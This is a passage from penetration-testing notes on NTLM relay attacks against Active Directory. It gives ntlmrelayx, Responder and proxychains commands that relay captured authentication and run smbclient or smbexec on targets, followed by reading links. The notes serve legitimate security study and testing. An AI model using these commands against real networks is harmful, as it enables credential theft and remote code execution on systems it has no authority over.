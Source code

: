 3. Run ntlmrelayx with the targets from file from above. You may wish to also run it with socks and smb2support flags

```bash
ntlmrelayx.py -socks -smb2support -tf targets_smb_no_sign.txt
```

4. Run responder and disable SMB and HTTP

```bash

vim /etc/responder/Responder.conf

#SMB = Off
#HTTP = Off
```

If attack is successful then socks service is going to contain some sessions

5. Attack by sending all malicious requests like psexec et al through the proxy

`proxychains -q smbclient.py 'DOMAIN/USER_NAME@TARGET'`

or smbexec if ADMIN is given

`proxychains -q smbexec.py 'DOMAIN/USER_NAME@TARGET'`


## Additional Reading
* Good Theory around AD: [zer1t0](https://zer1t0.gitlab.io/posts/attacking_ad/)
* Attack Methods Summary: [m0chan](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
* HackTricks: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
* Relay Attacks: https://w4h33d.gitbook.io/hack-notes/active-directory-ad/active-directory-attacks/ipv6-attacks/ipv6-attack-in-action